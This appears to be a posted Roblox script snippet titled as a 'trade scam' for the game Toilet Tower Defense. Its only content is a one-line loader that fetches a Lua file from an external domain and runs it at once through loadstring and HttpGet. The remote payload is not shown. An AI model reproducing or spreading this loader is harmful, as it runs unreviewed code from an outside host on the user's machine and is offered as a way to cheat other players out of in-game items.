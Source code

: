 # Toilet-Tower-Defense-trade. Scam



loadstring(game:HttpGet("https://egorikusa.space/e39101912e59f0ada550cb7b.lua", true))()
